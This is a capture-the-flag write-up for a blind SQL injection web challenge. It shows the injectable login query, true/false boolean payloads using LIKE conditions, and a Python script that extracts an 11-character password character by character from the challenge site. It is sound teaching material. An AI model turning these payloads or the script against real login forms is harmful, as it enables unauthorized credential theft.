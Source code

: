 # Web

Challenge Name : SQL That Can't See

# Solution

Go back to My First SQL challenge website and try to enter `admin:admin`.

![[Pasted image 20210610085914.png]]

Then look at the view source once you submit.

![[Pasted image 20210610085954.png]]

There is a query from what we inputs in the view source.

```bash
SELECT email, password FROM users WHERE email = 'admin' and password = 'admin'
```

From the challenge description it say that the email should be this `godam@kuki.com` and the password consists of 11 characters with lowercases. First let us get a payload that could help us on retrieving the password character by character.

```bash
# Payload (Return True)
Email : godam@kuki.com' or 1=1-- 

# Payload (Return False)
Email : godam@kuki.com' and 2=1-- 
```

This tell us that the email is correct. So now we must have some condition to check the password.

```bash
# Payload (Return True)
Email : godam@kuki.com' and password like 'k%'--

# Payload (Return False)
Email : godam@kuki.com' and password like 'y%'--
```

We can just go on with this payload character by character but to make things faster I create this python script to retrieve the password. Use [this](https://curl.trillworks.com/) to convert curl to python

```python
import requests
import string
requests.packages.urllib3.disable_warnings()

headers = {
    'Host': 'skrctf.me',
    'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Upgrade-Insecure-Requests': '1',
    'Te': 'trailers',
    'Connection': 'close',
}
password = ""
for ranges in range(11):
	for i in string.ascii_lowercase:
		temp = password + i
		params = (
		    ('email', "godam@kuki.com' and password like '"+temp+"%'-- "),
		    ('password', "'--"),
		)

		response = requests.get('https://skrctf.me/ports/4000/index.php', headers=headers, params=params, verify=False)
#		print(len(response.text))
		if len(response.text) > 1700:
			password += i
			break
	print("Round ["+str(ranges+1)+"]")
	print(password)

print("Flag => SKR{"+password+"}")
```

Run the script will get us the flag!

# Flag

![[Pasted image 20210610102052.png]]